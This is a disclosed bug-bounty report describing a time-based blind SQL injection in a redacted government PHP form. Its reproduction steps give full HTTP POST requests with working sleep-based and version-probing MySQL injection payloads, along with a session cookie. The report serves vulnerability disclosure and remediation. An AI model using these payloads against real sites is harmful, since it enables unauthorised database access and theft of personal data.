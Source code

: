 # Blind SQL injection on ████████

## Report Details
- **Report ID**: 313037
- **URL**: https://hackerone.com/reports/313037
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-02-07T01:37:21.388Z
- **Disclosed**: 2019-10-08T18:56:43.642Z

## Reporter
- **Username**: alyssa_herrera
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
 I discovered that a post request made to https://████████/elist/viewem6.php is vulnerable to SQL injection and is quite clearly vulnerable as I was able to induce a 2 second hang on the web page. Additionally I was able to discover the mysql version with a true/false condition.
**Description:**
 A post request is made to hhttps://████████/elist/viewem6.php  with the following parameters, 
rememail=test@att.net
As to not break the rules of engagement, I used a sleep query and Boolean based commands to clearly and definitively demonstrate the vulnerability and the severity of it.
## Impact
Critical
## Step-by-step Reproduction Instructions
In burp suite we can set a repeater request as followed. Target set as https://████/
POST /elist/viewem6.php HTTP/1.1
Host: ████████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://███████/elist/email_escribe.php?type=R
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Cookie: v1st=A9532F64A9E711AF; PHPSESSID=1796d85a30d3addf5934c1f0fafec529
Connection: close
Upgrade-Insecure-Requests: 1

rememail=test@att.net'%2b(select*from(select(sleep(2)))a)%2b'

Observe a 2 second hang.
vs 

POST /elist/viewem6.php HTTP/1.1
Host: ███
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://█████████/elist/email_escribe.php?type=R
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Cookie: v1st=A9532F64A9E711AF; PHPSESSID=1796d85a30d3addf5934c1f0fafec529
Connection: close
Upgrade-Insecure-Requests: 1

rememail=test@att.net'%2b(select*from(select(sleep(0)))a)%2b'

Additionally we can detect version of the mysql by using the following request

POST /elist/viewem6.php HTTP/1.1
Host: ██████████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://██████/elist/email_escribe.php?type=R
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Cookie: v1st=A9532F64A9E711AF; PHPSESSID=1796d85a30d3addf5934c1f0fafec529
Connection: close
Upgrade-Insecure-Requests: 1

rememail=test@att.net'%2bIF(MID(@@version,1,1)=4,sleep(2),1)=2%2b'



vs 


POST /elist/viewem6.php HTTP/1.1
Host: ████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://█████/elist/email_escribe.php?type=R
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Cookie: v1st=A9532F64A9E711AF; PHPSESSID=1796d85a30d3addf5934c1f0fafec529
Connection: close
Upgrade-Insecure-Requests: 1

rememail=test@att.net'%2bIF(MID(@@version,1,1)=5sleep(2),1)=2%2b'

We can then discover the version of the DB, we can use queries like this to further discover data.To specify these two queries will demonstrate a true or false query. True scenario will result in the Database sleeping for 2 seconds, false it won't sleep, using this logic, I was able to evaluate if the website's Mysql version started with 4 or 5. As I said above it was possible to escalate from simple time queries to reading data and executing other commands by combing sleep queries with true/false statements.

## Product, Version, and Configuration (If applicable)
N/a
## Suggested Mitigation/Remediation Actions
Sanitize user input and use stored procedures

## Impact

An attacker would be able to read data and steal data in the Database on this website leading to PII leakage and additionally may lead to the website being compromised completely

## Attachments
No attachments
